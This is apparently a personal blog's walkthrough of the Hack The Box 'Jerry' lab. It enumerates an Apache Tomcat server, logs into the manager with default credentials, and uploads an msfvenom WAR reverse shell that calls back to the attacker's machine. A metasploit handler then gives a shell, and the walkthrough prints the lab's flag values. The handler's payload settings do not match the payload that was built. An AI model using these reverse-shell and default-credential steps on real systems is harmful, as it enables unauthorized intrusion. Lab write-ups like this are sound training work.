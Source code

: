 ```yaml
---
title: Jerry, Hack the Box CTF Walkthrough
lead: Exploiting the Tomcat Manager Application
categories: CTF
image: /assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/jerry.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
categories: ctf
author: Tyler Butler
description: "Jerry is an easy level HTB challenge from the HTB archives"
card: card-2
navheader: posts
---
```


Jerry is an easy level HTB challenge from the HTB archives. The challenge involves basic CVE discovery through enumeration scans, and requires manual exploitation of the tomcat apache webserver. Overall this was a straightforward CTF challenge.  

## Enumeration  

First, I conducted a quick nmap scan of the top 200 ports to get a quick idea on the targets running services.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ nmap --top-ports 200 -Pn 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:43 EST
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).
Not shown: 199 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

The results showed an open webserver on port 8080. I started a more in-depth scan using the nmapAutomator script.  Output from the scan revealed the server was running the apache tomcat webserver, a technology used to run java servlets and other java web technologies.  The recon stage of the script used Gobuster to brute force  directories, which revealed the apache tomcat `/manager` path.  

```bash
---------------------Running Recon Commands----------------------
                                                                                                                                                           

Starting gobuster scan
                                                                                                                                                           
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/04 15:51:47 Starting gobuster
===============================================================
http://10.10.10.95:8080/aux (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs (Status: 302) [Size: 0]
http://10.10.10.95:8080/examples (Status: 302) [Size: 0]
http://10.10.10.95:8080/favicon.ico (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/lpt1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/lpt2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/nul (Status: 200) [Size: 0]
http://10.10.10.95:8080/prn (Status: 200) [Size: 0]
```  

## Password Cracking  

Upon visiting the manager URL, I was met with a basic HTTP authentication login form. From the eJPT course and certification exam, I already knew the default password for apache tomcat  was username:tomcat password:s3cret. Indeed, when I tried that combination it worked, showing the server was left secured with default credentials. This could also have been deduced using nikto, which also revealed the weak authentication.  

```bash
Starting nikto scan
                                                                                                                                                           
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2021-03-04 15:52:18 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-03-04 15:56:50 (GMT-5) (272 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

Finished nikto scan
                                                                                                                                                           
=========================
```  



After authenticating to the server, I found the manager application allowed the admin to upload a WAR file which would be executed by the server.   


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/upload.png">
    </div>
</div>
<br/>  

## Payload Creation  

Using `msfvenom`, I created a reverse tcp shell payload to upload to the target server. Once executed, the payload would connect back to my attacker machine on port 4443.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=4443 -f war -o pwn.war
Payload size: 13401 bytes
Final size of war file: 13401 bytes
Saved as: pwn.war
```  

Using the manager application, the payload was uploaded. 


## Catching a Reverse Shell  

Before triggering the payload, I used the multi/handler on `metasploit` to start a listener on my attacker machine to receive the reverse shell. Once the listener was started, I browsed to the location of the payload on the server, triggering the payload, and sending a reverse shell to my machine. 


```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4443 
[*] Sending stage (3008420 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.13:4443 -> 127.0.0.1) at 2021-03-04 18:58:40 -0500
```    

## Finding the Flags  

To find the flags, I dropped into the shell and manually searched the target to find the flag files.   

```bash
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,940,480 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```



